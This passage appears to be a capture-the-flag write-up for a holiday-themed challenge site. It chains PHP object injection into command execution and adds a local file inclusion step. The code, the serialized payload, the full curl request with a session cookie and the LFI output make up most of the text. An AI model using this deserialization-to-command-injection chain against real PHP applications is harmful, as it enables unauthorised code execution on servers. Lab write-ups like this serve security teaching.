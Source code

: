 ```
      if (file_exists($this->logname) && is_readable($this->logname)) {
        return preg_replace( '/[^[:print:]\r\n\t]/', '', file_get_contents($this->logname));
      }
    }

    function __destruct()
    {
      $stdout = shell_exec($this->command);
      if (strlen($stdout)) {
        if (is_writable(dirname($this->logname))) {
          file_put_contents($this->logname, "{$this->command}\n$stdout");
        }
      }
    }
  }

$file = '/var/www/db/cmdhist.log';
$oldAdminMethod = new OldAdminMethod('/usr/bin/firmwareupdate', $file);
echo "'" . serialize($oldAdminMethod) . "'";
echo "\n";
```

generates

```
'O:14:"OldAdminMethod":2:{s:7:"command";s:23:"/usr/bin/firmwareupdate";s:7:"logname";s:23:"/var/www/db/cmdhist.log";}'
```

Then we can use the cookie and the above to generate a request to admin.php to do command injection via the object injection. The lifecycle methods are called
when the class is created and then destroyed over the course of the request.

```

curl -v --http3 'https://elf-invaders.elfu.org/admin.php' -H "Cookie:
elfinv=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWxhYmFzdGVyX3Nub3diYWxsIiwiZXhwaXJlcyI6MTU4OTY3Mjc3NiwiZXhwIjozMTc5MjU5MTUyfQ.fwQJ4c-jpMHxG7_H_4uT82368Xb9DnE1LhhE0HcX03k" -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: https://elf-invaders.elfu.org' -H 'Alt-Used: elf-invaders.elfu.org' -H 'Connection: keep-alive' -H 'Referer: https://elf-invaders.elfu.org/leaderboard.php' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' -H 'TE: Trailers' --data-raw 'method=read_file&arguments=O:14:"OldAdminMethod":2:{s:7:"command";s:23:"/usr/bin/firmwareupdate";s:7:"logname";s:23:"/var/www/db/cmdhist.log";}'

```

Then we should be able to use LFI to get the log.

```
elfuser@bdd5e02ba86f:~\$ ./lfi.sh ../db/cmdhist.log | xxd -r -p
/usr/bin/firmwareupdate
Firmware Updated - Elf Invader Version 2.11516925085506347
```
